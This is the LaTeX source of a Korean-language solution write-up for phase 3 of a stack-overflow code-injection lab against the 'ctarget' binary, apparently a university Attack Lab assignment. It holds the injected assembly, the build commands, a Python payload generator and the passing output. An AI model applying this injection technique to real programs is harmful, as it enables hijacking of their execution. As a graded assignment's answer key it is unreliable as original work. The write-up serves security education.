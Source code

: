 \documentclass{scrartcl}
\begin{document}
\subsection{Phase 3}
\texttt{touch3} 함수의 코드를 분석해 보면 \texttt{hexmatch} 함수의 반환 값을
확인함을 알 수 있다. 이 함수에서는 랜덤을 통해 복잡한 연산을 수행하여
\texttt{0x55629f0b} 주소를 만든 다음, cookie 값이 저장되어 있는 rdx 레지스터를
\texttt{sprintf} 함수를 이용해 16진수로 이 주소에 출력한다. 그 뒤에
\texttt{strncmp} 함수를 사용하여 함수 호출 시점에서 rsi 레지스터에 있었던
주소의 문자열과 비교하여 같다면 1을 반환함을 알 수 있다. \texttt{hexmatch}
함수가 0이 아닌 값을 반환해야 공격이 성공하기 때문에, rdi 레지스터에 cookie
값을 16진수로 나타낸 문자열의 주소를 넣게 \texttt{touch3} 함수를 실행하면
공격을 할 수 있음을 예상할 수 있다. 문자열 또한 스택에 적어두고, 스택의 주소를
참조하는 식으로 공격을 설계하면 될 것이다. 여기에서는 스택의 적힌 리턴 주소
바로 다음에 cookie를 16진수로 적은 문자열을 저장하고 그 다음에 코드가
이어지도록 했지만, 여러 가지 방법이 가능할 것이다. 스택에 덮을 어셈블리 코드는
다음과 같다.
\begin{lstlisting}
.section .text
.globl start
start:
mov $0x55629f48, %rdi
mov $0x40194d, %rax
callq *%rax
\end{lstlisting}
앞서 phase 2를 해결할 때 실행했던 것과 비슷한 명령어를 실행하여
\texttt{phase3\_code.bin} 파일을 얻을 수 있다.
\begin{lstlisting}
$ as -o phase3_code.o phase3_code.S
$ ld -e start --oformat binary -o phase3_code.bin phase3_code.o
\end{lstlisting}
Input string은 다음과 같은 코드로 만들 수 있다.
\begin{lstlisting}[language=Python]
import struct

cookie = 0x3E52DFF5
stack_addr = 0x55629F40

with open("phase3_payload.bin", "wb") as outfile, open(
    "phase3_code.bin", "rb"
) as infile:
    outfile.write(b"A" * 0x18)
    cookie_hex = f"{cookie:8x}".encode() + b"\x00"
    outfile.write(struct.pack("<q", stack_addr + 8 + len(cookie_hex)))
    outfile.write(cookie_hex)
    outfile.write(infile.read())
\end{lstlisting}
이 코드를 통해 생성한 \texttt{phase3\_payload.bin} 파일을 입력으로 주어
실행시키면 공격이 성공함을 알 수 있다.
\begin{lstlisting}
$ ./ctarget < phase3_payload.bin
Cookie: 0x3e52dff5
Type string:Touch3!: You called touch3("3e52dff5")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
\end{lstlisting}
\end{document}

